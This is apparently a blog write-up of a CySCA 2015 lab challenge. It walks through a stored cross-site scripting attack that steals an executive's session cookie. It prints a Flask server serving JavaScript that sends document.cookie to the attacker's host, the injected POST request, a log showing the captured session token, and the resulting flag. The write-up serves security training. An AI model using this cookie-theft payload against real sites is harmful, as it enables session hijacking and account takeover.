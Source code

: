 ```yaml
---
title: CySCA 2015 - Web Application Pentest 4 - Business Excellence
author: nickw
layout: post

categories:
  - Blog
  - Security
---
```


<div style="font-size:0.7em"><i>Note: If you're interested in actually doing these challenges, <a href="/post/2015/cysca-web-pentest/">check out this post</a> on 
how to get the environment set up.</i>
</div>

* * *


We need to gain access to the CVO (Angelina's) account. In order to do this, we
most likely will need to steal a cookie. We take a look in the leave details 
section and put in a leave request to see if it's XSS protected. Additionally,
we notice that the session cookie on this website  *is not* `HTTPOnly`. Time
to steal.

The browser will prevent javascript accessing `HTTPOnly` cookies, hence, if it 
was HTTP Only, we would be looking in the wrong place. 

We do the naive thing and just put `<h1>Hello</h1>` in. However, the ticker spits 
out `WARNING: XSS detected! You have been reported.`. Additionally, it appears 
the XSS is stripped client side too. 

Lets take this to a [PostMan](https://chrome.google.com/webstore/detail/postman/fhbjgbiflinjbdggehcddcbncdddomop?hl=en) session rather than mucking around with 
request stripping. 

We also fire up a little flask web-app to steal the user's session. 

{% highlight python %}
from flask import Flask
import sys
app = Flask(__name__)

if len(sys.argv) < 3:
    print("Usage: {} <Listen IP Address> <Listen Port>".format(sys.argv[0]))
    print("Listen IP Must be a reachable machine IP from the box")
    exit(1)

host = sys.argv[1]; port = int(sys.argv[2])

@app.route('/')
def hello_world():
    return 'Hello World! <script src="http://{}:{}/r.js"></script>'.format(host,port)

@app.route('/r.js')
def steal():
    return """
    var url = 'http://{}:{}/url?'+ document.cookie;
    document.write('<img src="' + url +'" />');
    """.format(host, port)

if __name__ == '__main__':
    app.run(debug=True, port=port, host='0.0.0.0')

{% endhighlight %}

We send off the following request:

{% highlight text %}
POST /service/leave HTTP/1.1
Host: www.ecwi.cysca
Cache-Control: no-cache

start: 11/19/2015
end: 12/19/2015
reason: <Script src="http://x.x.x.x/r.js"></Script>
{% endhighlight %}

(Replacing x.x.x.x my your machine's accessible IP address)

We notice that the ticker says "WARNING: XSS detected! You have been reported." 
however, we still wait. Within 2 minutes, our javascript gets loaded, and we've
stolen the user's session cookie:

{% highlight text %}
192.168.8.6 - - [19/Nov/2015 17:58:01] "GET /r.js HTTP/1.1" 200 -
192.168.8.6 - - [19/Nov/2015 17:58:01] "GET /url?session=eyJfZnJlc2giOnRydWUsIl9pZCI6eyIgYiI6IlltSmtNemxpT1RCbE56TTJNakkwTkRVMU0yTXpPVFZpTkRoa01tWm1Zek09In0sInVzZXJfaWQiOiI1In0.CS8EeQ.fNfERZulfSlUGpMSNEnsN2TBnzQ HTTP/1.1" 404 -
{% endhighlight %}

We replace our session cookie with this one, and now we've logged in, reavealing
the flag in the ticker:

> You're an Executive! - FLAG{3a000000000000000000000000000000}


